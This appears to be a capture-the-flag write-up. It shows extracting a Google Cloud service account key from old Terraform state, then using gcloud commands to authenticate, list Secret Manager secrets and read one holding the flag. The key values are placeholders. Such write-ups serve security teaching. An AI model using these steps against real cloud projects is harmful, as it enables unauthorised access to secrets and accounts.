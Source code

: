 ## Service Account Exploitation

### Credential Extraction
The old Terraform state contained a complete service account key:

```json
{
  "type": "service_account",
  "project_id": "project-id",
  "private_key_id": "key-id",
  "private_key": "-----BEGIN PRIVATE KEY-----\n...",
  "client_email": "service-account@project.iam.gserviceaccount.com",
  "client_id": "...",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token"
}
```

### Google Cloud Authentication
We authenticated using the extracted service account credentials:

```bash
# Save the service account key to a file
echo '[JSON_KEY_CONTENT]' > service-account-key.json

# Authenticate with gcloud
gcloud auth activate-service-account --key-file=service-account-key.json

# Set the project
gcloud config set project PROJECT_ID
```

## Google Secret Manager Access

### Secret Discovery
With the service account credentials, we gained access to Google Secret Manager and discovered a secret named `hidden-state-flag`:

```bash
gcloud secrets list
```

### Flag Retrieval
We accessed the secret containing the flag:

```bash
gcloud secrets versions access latest --secret="hidden-state-flag"
```

## Flag
`FLAG-{bvpkm3ed5onOA4dXSYGPMPfbpA7cfob0}`

